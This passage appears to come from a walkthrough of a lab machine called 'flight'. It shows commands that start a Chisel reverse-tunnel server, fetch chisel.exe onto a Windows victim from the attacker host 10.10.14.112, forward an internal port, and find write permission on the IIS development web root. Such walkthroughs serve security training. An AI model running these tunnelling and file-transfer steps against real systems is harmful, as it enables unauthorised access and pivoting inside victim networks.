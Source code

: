 To proceed we need to start a [Chisel](https://github.com/jpillora/chisel) server on our VM.

```bash
sudo chisel server --reverse -p 1234
```

Upload the [Chisel](https://github.com/jpillora/chisel) client and forward it to our localhost on port TCP/8000.

```
PS C:\Users\Public> iwr -uri http://10.10.14.112/chisel.exe -outfile .\chisel.exe

PS C:\Users\Public> .\chisel.exe client 10.10.14.112:1234 R:8000:127.0.0.1:8000
2024/05/07 21:57:45 client: Connecting to ws://10.10.14.112:1234
2024/05/07 21:57:45 client: Connected (Latency 63.6654ms)
```

Now it is possible to access to this cool page from our VM.

<img src="/assets/img/flight/Untitled 9.png" alt="Untitled 9.png" style="width:800px;">

If we background the previous channel and enumerate the web directory in a new one, we notice that C.Bum user has **write permissions** on the web root directory. 

```
c:\inetpub>dir
	Directory of c:\inetpub
	09/22/2022  12:24 PM    <DIR>          custerr
	05/07/2024  10:02 PM    <DIR>          development
	09/22/2022  01:08 PM    <DIR>          history
	09/22/2022  12:32 PM    <DIR>          logs
	09/22/2022  12:24 PM    <DIR>          temp
	09/22/2022  12:28 PM    <DIR>          wwwroot
	
c:\inetpub>dir development
 Directory of c:\inetpub\development
	05/07/2024  10:02 PM    <DIR>          .
	05/07/2024  10:02 PM    <DIR>          ..
	04/16/2018  02:23 PM             9,371 contact.html
	05/07/2024  10:02 PM    <DIR>          css
	05/07/2024  10:02 PM    <DIR>          fonts
	05/07/2024  10:02 PM    <DIR>          img
	04/16/2018  02:23 PM            45,949 index.html
	05/07/2024  10:02 PM    <DIR>          js
	
c:\inetpub>icacls c:\inetpub\development
c:\inetpub\development flight\C.Bum:(OI)(CI)(W)
                       NT SERVICE\TrustedInstaller:(I)(F)
                       NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
                       NT AUTHORITY\SYSTEM:(I)(F)
```